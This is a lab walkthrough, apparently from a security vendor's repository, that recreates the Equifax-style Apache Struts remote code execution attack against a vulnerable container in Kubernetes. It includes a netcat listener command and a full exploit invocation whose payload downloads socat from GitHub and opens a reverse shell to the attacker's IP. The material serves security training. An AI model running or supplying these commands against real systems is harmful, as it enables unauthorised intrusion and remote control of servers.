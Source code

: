 ===============================
Struts Attack - Equifax for AWS
===============================

The goal of this article is to simulate the Equifax attack which was carried out exploiting Apache Struts vulnerability.

Apache Struts is an open-source framework used to build Java web applications. The vulnerability is a remote code execution bug that affects the Jakarta Multipart parser.

In this attack, the front end is exploited and a reverse shell is created in the machine where struts is running. The adversary can exploit that machine - escalate privileges, spawn and terminate processes, move laterally, and get to the crown jewels.

There are 2 parts to this setup

1) Setup a container running vulnerable Apache struts in Kubernetes
2) Attack the container, exploit the vulnerability and establish a command and control

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutssetup.png
 :width: 650
 :alt: ssrf setup


Running the Vulnerable container in Kubernetes
==============================================

**Container:** We have already created a container with a vulnerable Apache Struts app and its present at - quay.io/araalinetworks/struts:latest

Download the deployment yaml file --> **deployment.yaml**

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns strutfrontend
    $ kubectl apply -f deployment.yaml -n strutfrontend

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutskubectlgetpodsvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 8080
http://40.88.254.51:8080/super-app/orders/3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutsfrontend.png
 :width: 650
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Setup a VM to attack the container
==================================

Make sure **python 3.6** is installed on the VM.

Download the python file **attack42627.py** to your attack VM.

Executing the attack
********************


Now open two terminals, on one terminal type 

.. code-block:: RST
    
   $ sudo nc -nvlp 12345

On the other terminal type

.. code-block:: XML

   $ python3 strutattack/attack42627.py http://40.88.254.51:8080/super-app/orders/3 'wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:"ash -li",pty,stderr,setsid,sigint,sane tcp:104.41.3.199:12345'    


Here, 40.88.254.51 is the IP of the struts app.

and 104.41.3.199:12345 is the IP of the machine from which you are carrying out the attack.

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutterminalsetup.png
 :width: 650
 :alt: Terminal Setup

A reverse shell will be established on the listening port 12345

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutreverseshell.png
 :width: 650
 :alt: Terminal Setup

**Congratulations! Now you have a reverse shell on the container running the Struts Apps!**
